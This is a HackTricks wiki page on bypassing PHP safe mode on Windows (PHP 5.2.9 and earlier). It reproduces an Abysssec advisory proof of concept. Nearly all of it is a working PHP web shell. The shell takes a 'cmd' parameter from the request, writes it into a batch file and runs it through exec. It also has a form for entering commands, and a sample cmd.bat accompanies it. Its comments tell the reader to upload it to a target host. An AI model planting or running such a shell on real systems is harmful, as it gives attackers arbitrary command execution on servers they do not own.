

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


# PHP &lt;= 5.2.9 on windows

From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

{% tabs %}
{% tab title="exploit.php" %}
```php
<?php
//cmd.php
/*
	Abysssec Inc Public Advisory 
	
	Here is another safemod bypass vulnerability exist in php <= 5.2.9 on windows .
	the problem comes from OS behavior - implement  and interfacing between php
	and operation systems directory structure . the problem is php won't tell difference 
	between directory browsing in linux and windows this can lead attacker to ability 
	execute his / her commands on targert machie even in SafeMod On  (php.ini setting) . 
	=============================================================================
	in linux when you want open a directory for example php directory you need
	to go to /usr/bin/php and you can't use \usr\bin\php . but windows won't tell
	diffence between slash and back slash it means there is no didffrence  between 
	c:\php and c:/php , and this is not vulnerability but itself but  because of this  simple 
	php implement "\" character can escape safemode using  function like excec . 
	here is a PoC for discussed vulnerability . just upload files on your target host and execute
	your commands . 
	==============================================================================
	note : this vulnerabities is just for educational purpose and author will be not be responsible  
	for any damage using this vulnerabilty. 
	==============================================================================
	for more information visit Abysssec.com
	feel free to contact me at admin [at] abysssec.com
*/
	$cmd = $_REQUEST['cmd'];
	if ($cmd){
	$batch = fopen ("cmd.bat","w");
	fwrite($batch,"$cmd>abysssec.txt"."\r\n");
	fwrite($batch,"exit");
	fclose($batch);
	exec("\start cmd.bat");
	echo "<center>";
	echo "<h1>Abysssec.com PHP <= 5.2.9 SafeMod Bypasser</h1>";
	echo "<textarea rows=20 cols=60>";
	require("abysssec.txt");
	echo "</textarea>";
	echo "</center>";
	}
?>

<html>
<body bgcolor=#000000 and text=#DO0000>
<center>
<form method=post>
<input type=text name=cmd >
<input type=submit value=bypass>
</form>
</center>
</body>
</html>
```
{% endtab %}

{% tab title="cmd.bat" %}
```
dir > abyss.txt
exit
```
{% endtab %}
{% endtabs %}



<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


